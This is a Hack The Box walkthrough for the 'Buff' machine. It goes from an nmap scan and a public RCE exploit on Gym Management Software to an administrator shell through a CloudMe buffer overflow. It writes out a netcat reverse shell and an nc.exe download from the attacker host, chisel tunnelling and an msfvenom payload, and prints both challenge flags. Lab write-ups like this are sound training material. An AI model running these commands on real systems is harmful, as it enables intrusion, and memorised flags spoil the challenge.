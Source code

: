 # HTB Walkthrough - Buff

**Machine Name**: Buff  
**Target IP**: 10.129.2.18  
<img width="1270" height="764" alt="webpage" src="https://github.com/user-attachments/assets/2423fc7a-e049-433a-a7da-4571c4044621" />

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Buff 10.129.2.18
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## 🌐 Web Enumeration

- Website accessible at: http://10.129.2.18:8080
- Title: `mrb3n's Bro Hut`
- Software identified: **Gym Management Software 1.0**

<img width="1270" height="764" alt="gym-ui" src="https://github.com/user-attachments/assets/43d7599e-10ea-4763-9304-58439dfb2c66" />

## ⚙️ Exploitation (RCE via Gym Management Software)

[Exploit Reference - EDB 48506](https://www.exploit-db.com/exploits/48506)

```bash
python2 exploit.py http://10.129.2.18:8080/
```

**Initial Shell Gained.**

---

## 🪪 User Flag

```bash
type ..\..\..\..\Users\shaun\Desktop\user.txt
```

**Flag:** `4277a01cb57aa37a5e6aeeb90deb91c4`

---

## ⚙️ Reverse Shell Upgrade

```bash
# Host on attack box
python3 -m http.server 80

# On victim
powershell Invoke-WebRequest -Uri http://10.10.14.156/nc.exe -Outfile C:\Users\Public\nc.exe
C:\Users\Public\nc.exe 10.10.14.156 4444 -e cmd.exe
```

---

## 🧭 Privilege Escalation

### 🔍 winPEAS Findings

- Detected service: `CloudMe` running on `127.0.0.1:8888`
- Vulnerable to buffer overflow ([EDB 48389](https://www.exploit-db.com/exploits/48389))

---

## 🔁 Port Forwarding

**Using chisel:**

```bash
# On attacker machine
chisel server -p 8000 --reverse

# On victim
chisel.exe client 10.10.14.156:8000 R:8888:127.0.0.1:8888
```

---

## 💥 Exploiting CloudMe

1. Generate payload:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.156 LPORT=7777 -b "\x00\x0a\x0d" -f python -v payload
```

2. Inject payload into CloudMe exploit script and run:

```bash
python3 cloudme_exploit.py
```

---

## 👑 Root Access

```bash
whoami
# buff\administrator

type C:\Users\Administrator\Desktop\root.txt
```

**Flag:** `1d8332fbbb42c15032013d5e2fdd2655`
